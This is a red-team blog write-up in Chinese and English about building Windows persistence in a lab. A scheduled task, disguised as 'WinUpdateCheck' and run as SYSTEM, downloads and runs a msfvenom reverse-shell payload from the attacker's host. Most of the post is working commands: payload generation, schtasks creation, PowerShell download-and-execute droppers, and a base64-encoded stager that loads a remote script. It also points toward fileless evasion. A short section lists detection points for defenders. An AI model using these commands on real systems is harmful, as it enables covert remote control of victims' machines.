








# Windows Persistence Analysis: Troubleshooting PowerShell IEX & Binary Payloads
## Windows 持久化实战复盘：深入解析计划任务与 PowerShell 载荷投递故障

> 🏷️ **Tags:** #RedTeam #Persistence #PowerShell #Troubleshooting #CobaltStrike
> 📅 **Date:** 2025-11-26
> 👨‍💻 **Author:** Hackerchen716

## 1. Scenario & Setup (实战背景与环境)

在进行 Windows 权限维持（Persistence）测试时，计划通过 `schtasks` 每分钟从攻击机拉取并执行 Payload。

* **Attacker:** Kali Linux (`192.168.75.129`)
* **Target:** Windows 10 (Administrator)
* **Objective:** 计划任务触发 -> 下载 -> 上线

### 1.1 Payload Generation (载荷生成)
首先使用 `msfvenom` 生成一个标准的 Windows x64 反向连接 Payload (`msf.exe`)。

```bash
msfvenom -p windows/x64/shell/reverse_tcp lhost=192.168.75.129 lport=4444 -f exe -o msf.exe
```



### 1.2 Persistence Installation (埋留后门)

在受害者主机上，使用 `schtasks` 创建一个名为 "haha" 的计划任务，尝试通过 PowerShell 的 `IEX` 远程加载该 EXE。

**Original Command (The Trigger):**

```cmd
schtasks /create /sc minute /mo 1 /tn "haha" /tr "powershell.exe -nop -w hidden -c \"IEX((new-object net.webclient).downloadstring(\"\"\"[http://192.168.75.129:8080/msf.exe](http://192.168.75.129:8080/msf.exe)\"\"\"))\""
```


-----

## 2\. Investigation (排查过程)

**故障现象：**
计划任务触发后，攻击机未收到 Session 回连。受害者桌面每分钟闪过蓝色窗口。

### 2.1 Traffic Analysis (流量分析)

首先检查攻击机 Web 服务日志，确认受害者是否发起了请求。



**分析：**
日志显示目标主机 (.132) 已成功请求了 `msf.exe` 并返回 **200 OK**。
这排除了网络不通或防火墙拦截的可能性。文件已经被下载到了受害者内存中，问题出在“执行”环节。

### 2.2 Debugging (复现报错)

为了捕获执行错误，我移除 `-w hidden` 参数并在 PowerShell 中手动执行命令：

```powershell
powershell.exe -nop -c "IEX((New-Object Net.WebClient).DownloadString('[http://192.168.75.129:8080/msf.exe](http://192.168.75.129:8080/msf.exe)'))"
```

**Error Output:**
终端输出了大量乱码，并抛出 `ParserError` 异常:



-----

## 3\. Root Cause Analysis (根因分析)

结合流量日志和报错信息，结论如下：

  * **Payload (`msf.exe`):** 这是一个 **PE (Portable Executable)** 二进制文件。
  * **Method (`DownloadString`):** 该方法将 EXE 的二进制内容强制读取为**纯文本字符串**。
  * **Execution (`IEX`):** `Invoke-Expression` 试图将这串包含 `MZ` 和乱码的字符串当作 **脚本代码** 运行，导致解析失败。

**结论：**
虽然 HTTP 下载成功（Status 200），但 `IEX` 无法直接运行二进制文件。

-----

## 4\. Solution (解决方案)

### 4.1 Correct Approach (修正代码)

对于 EXE 载荷，必须采用“落地执行”策略（Dropper）。

**Fixed Command:**

```powershell
powershell -nop -c "(New-Object Net.WebClient).DownloadFile('[http://192.168.75.129:8080/msf.exe](http://192.168.75.129:8080/msf.exe)', '$env:TEMP\update.exe'); Start-Process '$env:TEMP\update.exe'"
```


### 4.2 Verification (验证)

修正命令后，Metasploit 成功接收到 Session 回连。



-----

## 5\. Advanced Tradecraft (进阶优化与坑点规避)

为了规避 CMD 中繁琐的双引号转义问题，并隐藏 URL 特征，通常建议使用 Base64 编码封装命令。

### 5.1 The Length Limit (遭遇长度限制)

我们首先尝试将完整的“下载并执行”命令直接进行 Base64 编码：

```powershell
# 尝试直接编码完整逻辑
$cmd = "(New-Object Net.WebClient).DownloadFile('[http://192.168.75.129:8080/msf.exe](http://192.168.75.129:8080/msf.exe)', '$env:TEMP\sys.exe'); Start-Process '$env:TEMP\sys.exe'"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
$encoded = [Convert]::ToBase64String($bytes)
# 此时生成的字符串长度超过 400+ 字符
```

然而，在执行 `schtasks` 时遇到了报错：**“/tr 选项的值不能超过 261 字符”**。这是 Windows 计划任务命令行的硬限制。


### 5.2 The Stager Solution (分阶段加载)

为了解决长度问题，必须采用 **Stager（分阶段）** 模式，将 Payload 只有“加载器”留在本地，核心逻辑放在服务端。

**Step 1: 服务端部署脚本 (`loader.ps1`)**
在 Kali 攻击机的 Web 目录下创建 `loader.ps1`。可以用 `nano` 或者直接用 `mousepad` (图形化记事本) 来创建。

```bash
mousepad loader.ps1  或者   nano loader.ps1
```

内容如下：

```powershell
$exe = "$env:TEMP\sys.exe";
(New-Object Net.WebClient).DownloadFile('[http://192.168.75.129:8080/msf.exe](http://192.168.75.129:8080/msf.exe)', $exe);
cmd.exe /c $exe
```

**Step 2: 生成短命令 Base64**
现在，计划任务只需要执行一句短指令：“去远程加载并运行 loader.ps1”。
*(注：因为 loader.ps1 是纯文本脚本，这里我们可以安全地回归使用 IEX)*

```powershell
# 缩短后的命令
$short_cmd = "IEX(New-Object Net.WebClient).DownloadString('[http://192.168.75.129:8080/loader.ps1](http://192.168.75.129:8080/loader.ps1)')"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($short_cmd)
$encoded = [Convert]::ToBase64String($bytes)
Write-Output $encoded
```

### 5.3 Final Scheduled Task Command

此时生成的 Base64 字符串长度大幅缩减（约 200 字符），成功绕过限制：

```cmd
schtasks /create /tn "WinUpdateCheck" /tr "powershell -enc <SHORT_BASE64_STRING>" /sc minute /ru SYSTEM /f
```



-----

## 6\. Red vs Blue: Detection & Defense (攻防对抗视角)

> ⚠️ **Disclaimer:** 此内容仅供网络安全研究与防御检测分析使用。

在成功实现持久化后，我们需要从蓝队视角审视该攻击链的脆弱性。

### 6.1 The "Dropper" Risk (落地风险)

本实验采用了 **Dropper** 模式（DownloadFile 写入磁盘）。

  * **红队风险：** 现代杀软（如 Windows Defender）拥有强大的实时监控（Real-time Protection）。`msfvenom` 生成的原生 EXE 特征极其明显，文件写入磁盘瞬间（WriteFile）极易被静态查杀。
  * **进阶思路：** 转向 **无文件（Fileless）** 攻击，利用 PowerShell 反射加载 DLL 或 Shellcode，避免文件落地。

### 6.2 Defensive Visibility (蓝队监测点)

防御者可以通过以下维度捕获此类攻击：

  * **进程行为 (EDR):** 监控 `svchost.exe` (计划任务服务) 衍生出的 `powershell.exe` 进程，特别是带有 `-EncodedCommand` 参数的可疑调用。
  * **脚本日志 (AMSI):** 即使使用了 Base64 混淆，PowerShell 在执行前会解密并传递给 **AMSI (Antimalware Scan Interface)**。开启 PowerShell 脚本块日志 (Event ID 4104) 可还原真实 Payload。
  * **流量审计:** 周期性的 HTTP 请求（每分钟一次）会产生明显的心跳特征。

-----

## 7\. Conclusion (总结)

本次复盘从一个看似简单的 PowerShell 报错出发，最终演变为对 Windows 持久化机制的深度剖析。

  * **Technical Precision (技术精度):** 严谨区分 **代码执行** (`IEX` 处理脚本逻辑) 与 **程序执行** (`Start-Process` 调用二进制文件)。试图用解释器去“运行”机器码是初学者最常见的误区。
  * **Troubleshooting Methodology (排错方法论):** 当自动化攻击失败时，**手动分步调试**（Manual Debugging）是定位问题的唯一捷径。从移除 `-w hidden` 捕获报错，到检查 HTTP 200 日志，再到手动点击验证，每一步都在缩小排查范围。
  * **Adaptability (战术适应性):** 实战环境远比实验室复杂。面对 `schtasks` 的 261 字符限制或 Defender 的实时拦截，灵活调整战术（如使用 Stager 分阶段加载）比死磕单一 Payload 更有效。

> "Security is not a product, but a process. And troubleshooting is the core of that process."

*EOF*
